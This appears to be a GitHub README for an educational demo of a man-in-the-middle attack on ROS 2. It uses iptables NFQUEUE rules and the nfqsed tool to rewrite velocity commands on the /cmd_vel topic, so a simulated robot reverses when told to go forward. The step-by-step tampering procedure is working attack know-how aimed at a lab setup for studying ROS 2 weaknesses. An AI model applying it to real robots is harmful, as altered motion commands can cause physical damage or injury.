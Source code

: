 # ROS2_Attack_Demo_Educational

Table of Contents
=================
  * [Description](#description)
  * [Requeriments](#requeriments)
  * [Instructions](#instructions)
  * [Documentation](#documentation)


  
## Description 
This repository contains a step-by-step guide to perform a MITM attack in ROS 2, for educational purposes. This guide makes use of the MERLIN2_docker platform, which consists of a docker image with a simulator for the RB1 robot.

The purpose of this guide is to present the vulnerabilities present in the communication mechanisms used by the ROS 2 framework.

## Requeriments

First of all, the following software is required to perform the experiment:

 - A installation of `Docker`
 - A local `ROS 2` distribution installed (Humble is recommended)
 - The package `ros-<DISTRO>-teleop-twist-keyboard`
 - A installation of `Wireshark`
 - `nfqsed` tool [https://github.com/rgerganov/nfqsed]
 - Docker image that contain the platform used for the experiment: [`MERLIN2_docker`](#https://github.com/MERLIN2-ARCH/merlin2_docker)
 - Installation of `Gazebo`
 - Installation of Rviz2
 - Installation of Rocker [https://github.com/osrf/rocker]

## Instructions

1. Execute the docker image with Rocker

    ```
    sudo rocker --nvidia --x11 --privilege mgons/merlin2:humble /bin/bash
    ```

2. Inside the docker run the simulator. This will open a local window for Gazebo and Rviz2.
    ```
    ros2 launch rb1_sandbox small_house.launch.py
    ```
    
    ![Gazebo Image](/images/Gazebo.png "Example of Gazebo execution with Rocker")
    ![RVIZ2 Image](/images/RVIZ2.png "Example of RVIZ2 execution with Rocker")
    
    
3. Run teleop node locally
    ```
    ros2 run teleop_twist_keyboard teleop_twist_keyboard
    ```
4. We will focus in the topic which have information about movement: /cmd_vel. With the following command we can see a list of the available topics.
    ```shell
    $ ros2 topic list
    ```
    ```shell
    /amcl/transition_event
    /amcl_pose
    /behavior_server/transition_event
    /behavior_tree_log
    /bond
    /bt_navigator/transition_event
    /camera/camera_info
    /camera/depth/camera_info
    /camera/depth/image_raw
    /camera/image_raw
    /camera/points
    /clicked_point
    /clock
    /cmd_vel
    /controller_server/transition_event
    ...
    ```
    
    We can see relevant information about the topic with `ros2 topic info <<topic_name>>>`. In this way, we can identify the message type that is been used by the topic. In that case that message type is: `geometry_msgs/msg/Twist`
    
    ```shell
    $ ros2 topic info /cmd_vel -v
    ```
    ```shell
    Type: geometry_msgs/msg/Twist
    Publisher count: 6
    Node name: teleop_twist_keyboard
    Node namespace: /
    Topic type: geometry_msgs/msg/Twist
    Endpoint type: PUBLISHER
    GID: 01.0f.68.a6.11.21.2c.5f
    .01.00.00.00.00.00.11.03.00.00.00.00.00.00.00.00
    QoS profile:
        Reliability: RELIABLE
        History (Depth): UNKNOWN
        Durability: VOLATILE
        Lifespan: Infinite
        Deadline: Infinite
        Liveliness: AUTOMATIC
        Liveliness lease duration: Infinite
    ```
    
    We also can show the structure of the message type:
    
    ```shell
    $ ros2 interface show geometry_msgs/msg/Twist
    ```
    ```shell
    Vector3 linear
    float64 x
    float64 y
    float64 z
    Vector3 angular
    float64 x
    float64 y
    float64 z
    ```
    
5. Teleop node will publish message in /cmd_vel topic. In that case, the node will publish a 0.5 value in X coordinate (of linear velocity) when the user press 'I' key.

    ```shell
    $ ros2 topic echo /cmd_vel
    ```
    ```shell
    linear:
    x: 0.5
    y: 0.0
    z: 0.0
    angular:
    x: 0.0
    y: 0.0
    z: 0.0
    ```
    
6. We must identify the Docker IP. In our case, the teleop node will be publishing in 172.17.0.1 while robot simulation has 172.17.0.2.

    ```shell
    $ ifconfig
    ```
    ```shell
    docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>
    mtu 1500
    inet 172.17.0.1 netmask 255.255.0.0
    broadcast 172.17.255.255
    inet6 fe80::42:14ff:fe51:3357 prefixlen 64
    scopeid 0x20<link>
    ether 02:42:14:51:33:57 txqueuelen 0 (
    Ethernet)
    RX packets 70409 bytes 17665691 (17.6 MB)
    RX errors 0 dropped 0 overruns 0 frame 0
    TX packets 11494 bytes 5410634 (5.4 MB)
    TX errors 0 dropped 0 overruns 0 carrier 0
    collisions 0
    ```
    
7. Run Wireshark (with root) and search for the ros2 packages. The teleop node can be used to generate traffic. We can use the next rule to filter the traffic: ```udp && ip.src==172.17.0.1 && ip.dst==172.17.0.2```. Once we have located a package we must search for the ports and replace them in the scriptDemo.sh file:

![Wireshark Image](/images/Wireshark.png "Example of ROS2 packages in Wireshark")

![Ports Image](/images/ports.png "Ports in Wireshark")

    
    ```shell
    $ sudo iptables -A INPUT -p udp --sport <<port_number>> -j NFQUEUE --queue-num 0
    $ sudo iptables -A OUTPUT -p udp --dport <<port_number>> -j NFQUEUE --queue-num 0
    ```
    
The script is modifying the package replacing the hexadecimal value of x coordinate (of linear velocity). The original value is 0xE03F (0.5 in decimal) and nfqsed will replace that value for 0xE0BF (-0.5 in decimal).

8. Next step consist in run the script and use teleop node to move the robot forward ("I" key), with nfqsed runing, the robot should moving backward when we press "I" key. With Wireshark we can monitor the traffic and see the modification of the package.

    ```
    $ ./scriptDemo.sh
    ```
    ```shell
    Rules (in hex):
    e03f -> e0bf
    opening library handle
    unbinding existing nf_queue handler for AF_INET (if any)
    binding nfnetlink_queue as nf_queue handler for AF_INET
    binding this socket to queue ’0’
    setting copy_packet mode
    packet received
    packet received
    rule match, changing payload: e03f -> e0bf
    packet received
    
    
    Remember that our script for run nfqsed need no be located inside the nfqsed folder, otherwise you will have to modify the script with the path to nfqsed.
    
    ![OriginalPackage Image](/images/paquete.png "Package before modification.")
    ![HackedPackage Image](/images/RVIZ2.png "Package after modification.")

## Documentation

Some useful links:

- Rocker Github: https://github.com/osrf/rocker
- nfqsed Github: https://github.com/rgerganov/nfqsed
- MERLIN2_docker Github: https://github.com/MERLIN2-ARCH/merlin2_docker
- MERLIN2_docker DockerHub: https://hub.docker.com/r/mgons/merlin2

Documentation:
- Paper:
- Demostration video: 
